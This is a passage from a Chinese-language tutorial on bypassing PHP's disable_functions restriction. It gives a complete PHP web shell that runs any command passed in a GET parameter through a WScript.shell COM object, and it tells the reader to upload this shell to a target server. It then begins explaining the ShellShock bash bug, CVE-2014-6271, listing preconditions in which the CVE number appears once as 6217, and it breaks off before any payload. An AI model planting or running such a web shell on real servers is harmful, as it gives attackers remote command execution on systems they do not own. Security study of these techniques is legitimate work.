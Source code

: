## 攻击利用

这里前提通过phpinfo知道disable_functions选项如下：

```php
disable_functions = exec,system,passthru,shell_exec,proc_open,popen,dl,
```

此时在Web服务器中写入任意的以上函数的WebShell都是无法执行命令的。

上传comshell.php到目标服务器：

```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

这里创建一个COM对象，然后通过调用COM对象的exec()方法来实现执行系统命令，从而绕过disable_functions禁用PHP命令执行函数的限制：

![image-20231022205448444](assets/image-20231022205448444.png)

# 0x05 利用 ShellShock（CVE-2014-6271）

## 适用条件

```php
1.Linux操作系统
2.putenv()、mail()、或error_log()函数可用
3.目标系统的/bin/bash存在CVE-2014-6217漏洞
4./bin/sh -> /bin/bash sh默认的shell是bash
```

## 原理简述

这种利用方法的前提是目标OS存在Bash破壳（CVE-2014-6271）漏洞，该漏洞的具体介绍可参考[《破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一  》](https://www.freebuf.com/news/48331.html)。

 该漏洞的原因是Bash使用的环境变量是通过函数名称来调用的，导致该漏洞出现是以(){开头定义的环境变量在命令 ENV (显示系统中已经存在的环境变量)中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。
